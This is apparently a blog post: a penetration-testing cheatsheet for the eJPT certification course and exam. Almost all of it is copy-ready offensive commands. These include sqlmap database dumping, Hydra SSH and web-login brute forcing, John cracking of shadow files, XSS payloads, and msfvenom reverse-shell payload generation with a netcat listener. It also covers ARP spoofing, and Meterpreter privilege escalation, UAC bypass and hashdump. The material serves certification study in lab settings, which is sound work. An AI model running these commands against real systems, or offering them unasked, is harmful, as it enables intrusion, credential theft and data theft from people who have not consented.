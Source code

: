 ```yaml
---
title:  "eJPT - Cheatsheet"
style: fill
color: danger
tags: [eLearnSecurity, Cheatsheet]
permalink: /blog/misc/ejpt-cheatsheet
description: This is a Cheatsheet for eJPT exam + course. Its always good to have all the commands in one place. The cheatsheet contains everything that will help you tackle the course & Exam.
---
```


### **This is a Cheatsheet for eJPT exam + course.**

## Nmap
```shell
nmap -sn 10.10.10.0/24
nmap -sV -p- -iL targets -oN nmap.initial -v
nmap -A -p- -iL targets -oN nmap.aggressive -v
nmap -p<port> --script=vuln -v <target-IP>
```

## fPing
```shell
fping -a -g 10.10.10.0/24 2>/dev/null > targets
```

## IP Route
```shell
# ip route add <Network-range> via <router-IP> dev <interface>
# eg.
ip route add 10.10.10.0/24 via 10.10.11.1 dev tap0
```

## John
```shell
john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5
unshadow passwd shadow > unshadowed.txt
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```

## dirb
```shell
dirb http://10.10.10.10/ 
dirb http://10.10.10.10/dir -u admin:admin
```

*I suggest you to use dirbuster for better speed. Keep the threads at 20. Use /usr/share/wordlists/dirb/common.txt wordlist.*

## Netcat
**Listening for reverse shell**
```shell
nc -nvlp 1234
```

**Banner Grabbing**
```shell
nc -nv 10.10.10.10 <port>
```

## SQLMap
#### Check if injection exists
```shell
sqlmap -r Post.req
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin"
```

#### Get database if injection Exists
```shell
sqlmap -r login.req --dbs
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id --dbs
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" --dbs
```

#### Get Tables in a Database
```shell
sqlmap -r login.req -D dbname --tables
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname --tables
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname --tables
```

#### Get data in a Database tables
```shell
sqlmap -r login.req -D dbname -T table_name --dump
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname -T table_name --dump
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname -T table_name --dump
```

## Hydra
**SSH Login Bruteforcing**
```shell
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u 10.10.10.10 ssh
hydra -v -V -u -l root -P passwords.txt -t 1 -u 10.10.10.10 ssh
```
*You can use same for FTP, just replace ssh with ftp*

**HTTP POST Form**
```shell
hydra http://10.10.10.10/ http-post-form "/login.php:user=^USER^&password=^PASS^:Incorrect credentials" -L usernames.txt -P passwords.txt -f -V
```

*You will know which wordlists to use when the time comes*


## XSS
```javascript
<script>alert(1)</script>
<ScRiPt>alert(1)</ScRiPt>
```

*This is a great filter bypass cheatsheet*\
[Owasp XSS Cheatsheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)

## msfvenom shells
**JSP Java Meterpreter Reverse TCP**
```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp
```

**WAR**
```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war
```

**PHP**
```shell
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

## Metasploit Meterpreter autoroute
```shell
run autoroute -s 10.10.10.0/24
```

## ARPSpoof
```shell
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i <interface> -t <target> -r <host>
arpspoof -i tap0 -t 10.100.13.37 -r 10.100.13.36
```

## SMB Enumeration
**Get shares, users, groups, password policy**
```shell
smbclient -L //10.10.10.10/
enum4linux -U -M -S -P -G 10.10.10.10
nmap --script=smb-enum-users,smb-os-discovery,smb-enum-shares,smb-enum-groups,smb-enum-domains 10.10.10.10 -p 135,139,445 -v
nmap -p445 --script=smb-vuln-* 10.10.10.10 -v

# Access Share\
smbclient //10.10.10.10/share_name
```

## FTP Enumeration
```shell
nmap --script=ftp-anon 10.10.10.10 -p21 -v
nmap -A -p21 10.10.10.10 -v

# Login to FTP server
ftp 10.10.10.10
```

## Meterpreter
```shell
ps
getuid
getpid
getsystem
ps -U SYSTEM

# CHECK UAC/Privileges
run post/windows/gather/win_privs

# BYPASS UAC
# Background the session first
exploit/windows/local/bypassuac
set session

# After PrivEsc**
migrate <pid>
hashdump
```
  
## Windows Command Line
**To search for a file starting from current directory**
```powershell
dir /b/s "*.conf*"
dir /b/s "*.txt*"
dir /b/s "*filename*"

# Check routing table
route print
netstat -r

# Check Users
net users

# List drives on the machine
wmic logicaldisk get Caption,Description,providername
```